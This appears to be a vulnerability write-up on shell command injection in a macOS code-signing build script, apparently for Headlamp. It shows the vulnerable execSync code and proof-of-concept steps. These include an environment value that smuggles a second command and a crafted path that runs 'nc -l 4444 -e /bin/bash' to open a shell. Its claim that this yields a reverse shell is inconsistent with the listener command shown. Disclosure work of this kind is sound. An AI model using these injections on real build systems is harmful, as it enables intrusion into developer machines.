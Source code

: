 <style>
.video-container {
  position: relative;
  padding-bottom: 56.25%; /* 16:9 Aspect Ratio */
  height: 0;
  overflow: hidden;
  margin: 2rem 0;
  border-radius: 8px;
  box-shadow: 0 4px 6px -1px rgba(0, 0, 0, 0.1), 0 2px 4px -1px rgba(0, 0, 0, 0.06);
}
</style>

### Original Vulnerable Code
```javascript
// codeSign.js (Pre-Patch)
const { execSync } = require('child_process');

function codeSign(config) {
  const teamID = process.env.DEVELOPER_TEAM_ID;
  const entitlementsPath = path.join(__dirname, 'entitlements.plist');
  
  execSync(
    `codesign --deep --force --options=runtime --entitlements ${entitlementsPath}` +
    ` --sign "Developer ID Application: ${teamID}" ${config.app}`
  );
}
```

### Vulnerability Characteristics
1. Unsanitized `teamID` from environment variables
2. Unvalidated `config.app` path interpolation
3. Shell command string concatenation
4. Execution during macOS build process

## Vulnerability Exploitation

### Step-by-Step Exploitation Path

1. **Compromise Build Environment**:
```bash
export DEVELOPER_TEAM_ID="TeamID\" \"; echo 'EXPLOITED' > /tmp/headlamp_poc; \""
npm run build:mac
```

2. **Malicious Application Path**:
```bash
# Create malicious app bundle path
mkdir -p "/Applications/Headlamp.app; nc -l 4444 -e /bin/bash; #"
```

3. **Verify Exploitation**:
```bash
cat /tmp/headlamp_poc  # Shows "EXPLOITED"
# Or get reverse shell
```
